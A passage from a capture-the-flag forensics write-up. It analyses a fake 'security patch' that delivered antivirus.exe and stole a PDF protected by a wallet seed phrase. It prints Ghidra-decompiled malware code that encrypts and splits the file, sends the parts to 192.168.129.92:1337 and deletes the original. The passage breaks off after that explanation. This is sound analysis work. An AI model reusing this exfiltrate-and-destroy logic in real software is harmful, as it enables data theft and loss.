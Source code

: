 # Update Required

### Status : Upsolved

## Category
Digital Forensic

## Description
A researcher in Mondstadt's tech division received an urgent-looking HTML file, claiming to be a critical security patch. Trusting its source, they executed antivirus.exe and moments later, a secret PDF file disappeared.
The PDF contained a confidential override PIN tied to the Vision Distribution Network. To protect it, the researcher locked the PDF with their wallet's seed phrase (exported from a Chrome extension), joined with an underscore (__) as the password.
Although the wallet vault file remains on disk, the password to unlock it has since been lost. Fortunately, there's a lead: the researcher once copied the vault password to clipboard.

## Solution
They provide `chall.pcapng` and `update_required.ad1`. I extracted disk from `update_required.ad1` using **FTK Imager**.

I found `antivirus.exe` from extracted objects of `chall.pcapng` using `wireshark`. Then I decompiled it using **Ghidra**. Here is the main function:
```c
void __rustcall ransom::main(void)

{
  undefined8 uVar1;
  char *pcVar2;
  undefined1 local_38 [24];
  char *local_20;
  undefined8 local_18;
  
  pcVar2 = "secret.pdf";
  local_20 = "secret.pdf";
  local_18 = 10;
  encrypt_file_and_split(local_38,"secret.pdf",10);
  uVar1 = _<>::deref(local_38);
  send_parts(uVar1,pcVar2,"192.168.129.92",0xe,0x539);
  destroy_original("secret.pdf",10);
  core::ptr::drop_in_place<>(local_38);
  return;
}
```

There is 2 main function that I highlighted:
1. `encrypt_file_and_split()` to encrypt `secret.pdf` and split it into several parts.
2. `send_parts()` to send encrypted parts of `secret.pdf` to `192.168.129.92:1337`
